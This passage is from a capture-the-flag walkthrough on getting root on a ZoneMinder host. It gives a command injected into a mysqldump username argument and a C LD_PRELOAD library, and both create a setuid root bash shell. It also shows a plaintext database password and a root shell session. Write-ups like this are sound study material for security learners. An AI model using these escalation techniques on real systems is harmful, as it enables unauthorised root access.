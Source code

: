 ```
Command 'mysqldump -u$(cp /bin/bash /tmp/0xdfroot; chown root:root /tmp/0xdfroot; chmod 6777 /tmp/0xdfroot) -p'ZoneMinderPassword2023' -hlocalhost --add-drop-table --databases zm > /tmp/zm/zm-10.dump' exited with status: 2

```

It created the `bash`:

```
-bash-5.1$ ls -l /tmp/0xdfroot
-rwsrwsrwx 1 root root 1396520 Apr 19 02:24 /tmp/0xdfroot

```

Running it gets a root shell:

```
-bash-5.1$ /tmp/0xdfroot -p
0xdfroot-5.1#

```

And `root.txt`:

```
0xdfroot-5.1# cat /root/root.txt
e3a84d31************************

```

### Via LD\_PRELOAD in ZoneMinder

#### ZoneMinder Enumeration

The intended way involves seeing an interesting setting in the ZoneMinder options.

In clicking around in ZoneMinder, the “Options” menu has a “Config” page:

![image-20240418172641645](https://0xdf.gitlab.io/img/image-20240418172641645.png)

About half way down is one that seems interesting:

![image-20240418172700693](https://0xdf.gitlab.io/img/image-20240418172700693.png)

Clicking the “?” generates this pop-up:

![image-20240418172718397](https://0xdf.gitlab.io/img/image-20240418172718397.png)

#### Generate Shared Library

I’ll create the following short C program (just like in [Clicker](https://0xdf.gitlab.io/2024/01/27/htb-clicker.html#method-3-via-ld_preload)):

```
#include <stdio.h>
#include <sys/types.h>
#include <stdlib.h>
#include <unistd.h>

void _init() {
  unsetenv("LD_PRELOAD");
  setgid(0);
  setuid(0);
  system("cp /bin/bash /tmp/0xdf-root");
  system("chown root:root /tmp/0xdf-root");
  system("chmod 6777 /tmp/0xdf-root");
}

```
